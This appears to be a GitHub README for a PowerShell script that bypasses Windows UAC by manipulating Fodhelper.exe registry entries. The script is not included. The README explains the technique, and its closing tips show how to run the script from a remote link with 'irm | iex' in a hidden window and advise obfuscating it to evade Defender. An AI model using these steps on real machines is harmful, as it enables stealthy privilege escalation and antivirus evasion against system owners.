 # Fodhelper UAC Bypass Implementation

## Overview
This repository contains a PowerShell script that demonstrates a UAC (User Account Control) bypass using **Fodhelper.exe**, a trusted binary in Windows operating systems. By exploiting a feature of Fodhelper.exe, we can elevate privileges without triggering the typical UAC prompt, allowing for seamless execution of elevated commands.

### What is Fodhelper.exe?
**Fodhelper.exe** is a trusted system binary found in Windows operating systems. By default, this executable has administrative privileges and is considered a "trusted binary" in Windows. As a result, **Fodhelper.exe** can be leveraged to gain administrative rights without triggering the standard UAC prompt that usually appears when attempting to run applications as an administrator.

In simpler terms, when running an application that requires administrative privileges, Windows typically prompts the user to confirm the action (UAC prompt). However, **Fodhelper.exe** bypasses this step, allowing for elevated privileges without user intervention. This behavior is a Windows-specific feature that can be exploited through registry manipulation to stealthily execute commands with administrative rights.

### How Does it Work?
The process involves manipulating registry entries related to **Fodhelper.exe** to invoke the binary with elevated privileges. Once triggered, **Fodhelper.exe** will execute the designated commands, such as running PowerShell scripts, with administrator rights.

This technique allows for the execution of commands or scripts that would typically require UAC confirmation, bypassing the prompt altogether. It can be used for automation or stealthy privilege escalation purposes.

### Stripped-Down Script
This repository provides a **stripped-down version of the PowerShell script** that showcases the basic functionality of the Fodhelper UAC bypass technique. The script is simplified to demonstrate that the method works, and you can modify it as needed to suit your purposes. **Please note**: This tool is intended for educational purposes only and should be used responsibly.

### Legal Disclaimer
This script and method are shared for educational purposes only. Misuse of this information, including unauthorized access to systems or data, is illegal and unethical. Always obtain proper authorization before attempting to use this technique in any environment. The author of this repository assumes no responsibility for any consequences arising from the use of this tool.

---

## Usage

### Tested on Windows 10

### Prerequisites
- A Windows operating system with UAC enabled (the method works by exploiting **Fodhelper.exe**'s behavior in these environments).
- PowerShell is required for executing the script.

### Running the Script
1. Download or clone the repository.
2. Open a PowerShell session with out administrative privileges.
3. Navigate to the directory where the script is located.
4. Execute the PowerShell script using the following command:
   ```powershell
   .\uacGit.ps1

### Tips:
1. Host your modified script online.
2. Utilize Run Dialague Box (Win + R) to execute powershell -C "irm 'LinkToThisScript' | iex" and the "-WindowStyle Hidden" flag for stealth
3. Split the script / obfuscate if Defender is triggered.

